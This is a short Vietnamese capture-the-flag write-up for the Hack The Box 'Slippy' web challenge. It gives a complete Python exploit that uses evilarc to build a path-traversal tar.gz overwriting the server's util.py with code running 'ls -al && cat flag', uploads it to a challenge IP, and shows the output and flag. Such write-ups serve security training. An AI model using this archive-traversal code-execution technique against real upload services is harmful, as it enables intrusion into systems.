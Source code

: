 # __Slippy__
</br> [source](https://github.com/magnetohvcs/CTF/raw/main/ctf-hackthebox/Uni%20CTF%202021%20Quals/src/web_slippy.zip)

 __tóm tắt__ : cố gắng upload file tar.gz để lấy flag, ta không thể dùng symlinks để truy cập file flag, nên ta sẽ sẽ dùng [công cụ này](https://github.com/ptoomey3/evilarc). 
 
 </br> Đầu tiên tải [evilary](https://github.com/ptoomey3/evilarc) và sau đó chạy đoạn mã này
 
 ```
 import requests, os, json, time
s = requests.session()

ip_port = '64.227.40.93:32528' # change this
url = 'http://%s/api/unslippy'%ip_port
util = '''
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    return [os.popen('ls -al && cat flag').read()]
''' 

open('util.py','w').write(util)
path_evilary = '~/evilarc/evilarc.py' # change  this
os.system('python2 %s -d 3 -o u -f flag.tar.gz util.py'%path_evilary)
s.post(url,files={'file':open('flag.tar.gz','rb')})
time.sleep(2)
res = s.post(url,files={'file':open('flag.tar.gz','rb')}).text
print(json.loads(res)['list'][0])
```
__output__
```
Creating flag.tar.gz containing ../../../util.py
total 28
drwxr-xr-x    1 root     root          4096 Nov 16 23:46 .
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 ..
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 application
-rw-r--r--    1 root     root            29 Nov 16 10:45 flag
-rw-r--r--    1 root     root            98 Nov 15 13:22 run.py
HTB{i_slipped_my_way_to_rce}
```
